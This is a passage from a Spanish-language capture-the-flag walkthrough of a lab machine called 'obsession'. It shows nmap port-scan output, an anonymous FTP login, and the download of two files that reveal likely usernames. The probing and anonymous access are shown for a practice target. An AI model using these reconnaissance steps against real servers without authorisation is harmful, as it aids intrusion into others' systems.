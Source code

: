 ```
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
|_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
```

Los puertos que estan abiertos son el puerto FTP (puerto 21), puerto SSH (puerto 22) y puerto HTTP (puerto 80).

## Explotación
Como tenemos el puerto FTP abierto, lo primero que haremos es verificar si podemos acceder mediante login *anonymous*, y vemos que lo permite (el login *anonymous* es mediante el usuaro ``anonymous`` y sin contraseña)

```
❯ ftp obsession
Connected to obsession.
220 (vsFTPd 3.0.5)
Name (obsession:godack): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Al hacer *ls* vemos que hay dos archivos, *chat-gonza.txt* y *pendientes.txt*, así que los descargamos y miramos su contenido

```
ftp> ls
229 Entering Extended Passive Mode (|||34980|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
226 Directory send OK.
ftp> get chat-gonza.txt
local: chat-gonza.txt remote: chat-gonza.txt
229 Entering Extended Passive Mode (|||11500|)
150 Opening BINARY mode data connection for chat-gonza.txt (667 bytes).
100% |*************************************************************************|   667   3.78 MiB/s  00:00 ETA
226 Transfer complete.
667 bytes received in 00:00 (713.43 KiB/s)
ftp> get pendientes.txt
local: pendientes.txt remote: pendientes.txt
229 Entering Extended Passive Mode (|||63348|)
150 Opening BINARY mode data connection for pendientes.txt (315 bytes).
100% |*************************************************************************|   315   1.98 MiB/s  00:00 ETA
226 Transfer complete.
315 bytes received in 00:00 (465.38 KiB/s)
```
Al ver el contenido podemos deducir que hay dos posibles usuarios en la máquina víctima, *Gonza* y *Russoski*
